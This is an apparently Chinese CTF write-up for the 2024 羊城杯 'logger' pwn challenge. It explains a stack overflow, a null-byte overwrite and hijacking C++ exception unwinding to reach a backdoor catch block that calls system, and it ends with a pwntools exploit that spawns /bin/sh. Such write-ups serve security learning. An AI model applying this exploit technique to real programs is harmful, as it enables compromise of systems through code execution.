 ```yaml
---
title: 2024-羊城杯logger
date: 2024-8-30
categories: 2024-羊城杯
---
```

# 前言
当时比赛我没看这题，在搞一个`houseofapple2`的`orw`，由于利用比较麻烦，以及我太菜没搞过类似`io的orw`，导致浪费太久时间。
火箭这次比赛爆上分，提供`TravelGraph`的思路同时砍下`logger和html`，tql！！
# 功能介绍
## main
![main](./logger/main.png)
main函数很明确，一个菜单，两个功能`trace和warn`，由于ida的问题反汇编并不能看到c++的try和catch，下面这张图是汇编代码看到的try和catch
![asm_main_try](./logger/asm_main_try.png)
看到warn函数是在try里面的
![asm_main_catch](./logger/asm_main_catch.png)
然后是main函数对于异常的处理，没什么特别的，就是printf了一下，然后又会回到主循环中。
## warn
![warn_try](./logger/warn_try.png)
可以看到在warn函数中有大的栈溢出，我们或许可以用这个栈溢出来劫持程序流。
问题在于程序也有检查，如果输入字节仅仅大于10就会抛出异常。(以及warn函数中并没有对于这个try的catch处理，所以这个异常会回溯到上一步，由main中的catch处理)
## trace
![trace](./logger/trace.png)
在全局变量段读入数据，每次10字节。
可以发现图中绿色的一行上有一个强制在输入的字符串后面加上`'\x00'`，如果刚好输入0x10个字节则会导致不规范的越界写入`'\x00'`。

遍历的方式是在i属于[0,8]的情况下，如果*(char*)buf[0x10*i] == 0，认为这个未被使用过，就拿来给我们读0x10个字节

我们可以通过在`'Buffer Overflow'`前的一次输入选择输入十个字节，让`'Buffer Overflow'`的第一个字节被覆盖为0，就可以覆盖`'Buffer Overflow'`的前0x10个字节内容，不清楚有什么用，暂且按下不表。
![trace_overflow](./logger/trace_overflow.png)
## c++异常机制
c++关于异常的三个关键词，try，catch，throw。
```c++
try {
    file.open("aaa.txt");
    // 可能出现错误的代码放在try里面
    if (!file.is_open()) { throw FileOpenException("Failed to open file");}
    // 如果出现异常，就throw，并交给对应的catch去处理
} catch (...) {
    // 捕获所有的异常
    std::cerr << "Unknown exception caught." << std::endl;
}
```
catch也可以和try不同时出现，比如某个函数的只有try，而将所有异常交给父函数处理
这一点之所以可以做到是因为c++异常处理会沿着调用链逐层回溯，直到找到catch对错误进行处理为止。(或者是找不到对应的catch，那就会导致程序异常终止)
```c++
void performTask() {
    try {
        riskyOperation(); // 调用可能会抛出异常的函数
    } catch (const std::exception& e) {
        // 捕获并处理来自 riskyOperation 的异常
    }
}

void riskyOperation() {
    try {
        throw std::runtime_error("An error occurred in riskyOperation");
    }
}
```
# 题目思路
由于c++的异常回溯会沿着函数调用链往回找，那我们刚好又可以通过栈溢出覆盖函数返回地址，从而影响函数调用链。
也就是说，我们可以让该异常处理机制误以为他是从另外的某个try块(成为tryA块)调用过来的，应该去tryA块去寻找对应的catch机制
好巧不巧，程序plt段有个system，跟进之后发现了作者留给我们的后门catch块
![backdoor_catch](./logger/backdoor_catch.png)
其中有调用system函数，而system函数的参数正好是指向`'Buffer Overflow'`的指针。

那就思路很清晰了，我们只需通过trace函数覆盖`'Buffer Overflow'`为`'/bin/sh'`，然后覆盖warn函数返回地址为上图最上方的try地址。

不过还有一点值得注意，异常处理既然回到了父函数，那么也会恢复父函数的rbp。而如果能控制rbp的话，肯定还可以有一些别的操作，比如伪造变量，比如通过leaveret二次跳转等等。
# exp
```python
def trace(tosend: bytes):
    io.sendlineafter(b'****************', b'1')
    io.sendafter(b'details', tosend)
    io.sendlineafter(b'check', b'n')

def warn(tosend: bytes):
    io.sendlineafter(b'****************', b'2')
    io.sendafter(b'message', tosend)

for _ in range(7):
    trace(b'skip')
trace(b'a'*0x10)
trace(b'/bin/sh'.ljust(0xf, b'\0'))
payload = b'0'*0x70 + p64(0x404500) + p64(0x401BC4)
warn(payload)
io.interactive()
```


